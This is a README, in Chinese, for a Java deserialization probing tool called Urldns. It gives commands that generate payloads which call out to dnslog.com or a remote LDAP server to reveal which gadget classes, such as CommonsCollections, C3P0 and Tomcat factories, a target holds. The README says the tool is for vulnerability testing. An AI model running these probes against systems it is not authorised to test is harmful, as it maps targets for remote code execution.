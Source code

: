 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389。

请输入: java -jar Urldns.jar base64 all dnslog.com

或者   : java -jar Urldns.jar file all dnslog.com

或者   : java -jar Urldns.jar ldap all dnslog.com


目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
``CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
Jdk7u21
winlinux``

使用ldap模式的all将额外探测如下
``javax.el.ELProcessor
org.apache.naming.factory.BeanFactory
groovy.lang.GroovyShell
groovy.lang.GroovyClassLoader
org.yaml.snakeyaml.Yaml
com.thoughtworks.xstream.XStream
org.mvel2.sh.ShellSession
org.apache.catalina.UserDatabase
org.apache.catalina.users.MemoryUserDatabaseFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
org.apache.commons.dbcp2.BasicDataSourceFactory
org.apache.commons.dbcp.BasicDataSourceFactory
org.apache.tomcat.jdbc.pool.DataSourceFactory
com.alibaba.druid.pool.DruidDataSourceFactory``

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com

ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
